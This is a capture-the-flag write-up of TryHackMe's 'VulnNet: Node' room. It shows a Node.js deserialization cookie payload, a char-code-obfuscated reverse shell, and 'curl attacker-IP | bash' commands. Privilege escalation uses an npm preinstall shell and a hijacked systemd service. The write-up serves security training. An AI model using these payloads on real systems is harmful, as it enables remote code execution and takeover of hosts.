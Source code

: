 ```yaml
---
description: Javascript
---
```


# 24 - VulnNet: Node

Room Link --> [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

### Enumertion

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -sS 10.10.234.78 -Pn -n -p- -T5 -vv

# output
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 63
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wappalyzer shows us the page is running NodeJS.

Enumerating with gobuster, ffuf returned "/login". Intercepting the request with burpsuite, we see we are already assigned a  cookie.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>in b64 format</p></figcaption></figure>

Lets decode it, in the decoder bar i selected decode as b64.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking at the screenshot above we some some JSON encoded data. My first thought was maybe we could bypass the whole login process if we might change the cookie making the web application think we are admins

And i tried that first

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-O0ze1yZRIpR9WQ1puhE0g.png" alt="" height="288" width="700"><figcaption></figcaption></figure>

Next i sent the modified session cookie and the web application throws a 500 statuscode error.

\


<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When you google NodeJS Serialization exploits, you stumble on this article: [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

{% code overflow="wrap" lineNumbers="true" %}
```bash
# this is the payload.
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
{% endcode %}

We will modify the following payload a bit to get it working.

To make sure that the exploit was working i tried pinging myself. First i did set up a tcpdump listener.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got some replies back.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
# final payload
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.18.88.214/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}

# or we can use the nodeshell.py script on github:
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,56,46,56,56,46,50,49,52,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()","isGuest":true,"encoding": "utf-8"}
```
{% endcode %}

And got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Ess to Serv-manage

`sudo -l` - we can run npm with sudo as user "serv-manage"

So, we create a package.json with the following content:

<pre class="language-bash"><code class="lang-bash"><strong>echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
</strong></code></pre>

Then, we simply run `sudo -u serv-manage /usr/bin/npm i` and voila, we are logged in as `serv-manage`, which had the `user.txt` flag right in their home folder for us to read.

### Priv Esc to root

Running sudo -l again, we find that we can edit a system ditimer service called vulnnet-auto.timer

<figure><img src=".gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

We are in the "serv-manage" group, so we have "RW" permissions to  modify this file.

<figure><img src=".gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

Let’s use locate to find the vulnnet service we have access to and examine it.

This service appears to refer to another service vulnnet-job.service let’s take a look at it too.

{% code overflow="wrap" lineNumbers="true" %}
```bash
locate vulnnet-auto.timer.timer
ls -lah /etc/systemd/system/vulnnet-job.service
cat /etc/systemd/system/vulnnet-job.service

# modified to
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "curl 10.18.88.214/shell.sh | bash"

[Install]
WantedBy=multi-user.target


```
{% endcode %}

Note i had to create a shell.sh file then put bash one-liner rev shell in it, and serve it in python server.

<figure><img src=".gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

Done.

